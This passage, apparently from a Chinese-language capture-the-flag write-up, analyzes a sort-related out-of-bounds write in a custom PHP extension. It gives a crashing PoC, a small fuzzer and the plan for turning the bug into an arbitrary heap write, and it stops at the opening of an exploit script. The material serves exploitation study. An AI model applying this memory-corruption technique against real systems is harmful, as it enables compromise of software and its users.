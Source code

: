 跑起来验证一下也就是`_quicksort`​排序的时候越界的问题，把size修改得任意大了，甚至name字段也被覆盖了：

![image](https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/image-20250404132547-n39gf22.png)

这个时候可以手工删减poc，以确定触发漏洞的输入：

```php
<?php
add_chunk(14, [0x5ac569df, 0x6c313c17, 591877129, 0x1fe65652, -944419699, -841403074, 154814687, 0xe98c4764, -864569255, 0xb719576e, 0xa73bb273, 0xd8f3896e, -902885394, 0x30dfbfa0], "U");
show_chunk(0);
```

这样就可以确定是排序导致的问题了，这个时候可以进一步针对这个数组序列构造fuzz：

```php
def generate_number():
    """生成随机整数（十进制或十六进制）"""
    return hex(random.getrandbits(32))

def generate_string():
    """生成随机PHP字符串"""
    chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_'
    return f'"{random.choices(chars, k=random.randint(5, 15))[0]}"'

def generate_php_code():
    """生成随机PHP测试用例"""
    code = ["<?php\n"]
    size = random.randint(1, 5)
    numbers = [generate_number() for _ in range(size)]  # 固定5个元素
    name = generate_string()
    code.append(f"add_chunk({size}, [{', '.join(numbers)}], {name});\n")
    code.append(f"show_chunk({0});\n")
```

这样跑起来就得到了很简单的poc：

```php
// Return code: -11
// Stderr: 
<?php
add_chunk(4, [0xcb949c35, 0x177c5522, 0xfec7b323, 0x726bb3bc], "i");
show_chunk(0);
```

会把size改大：

![image](https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/image-20250404133728-irm7iaq.png)

这样可以得到一个在php堆上的下溢任意地址写：

![image](https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/image-20250404134112-cxyx8u9.png)

思路也比较简单，就是第一次利用越界写修改下一个chunk的`name`​指针，再利用这个`name`​指针实现任意地址写。这里给出直接打本地的脚本，远程同理：

```php
<?php

$game_base = 0;
$libc_base = 0;
$libc = "";
$mbase = "";

function u64($leak){
    $leak = strrev($leak);
    $leak = bin2hex($leak);
    $leak = hexdec($leak);
    return $leak;
}
```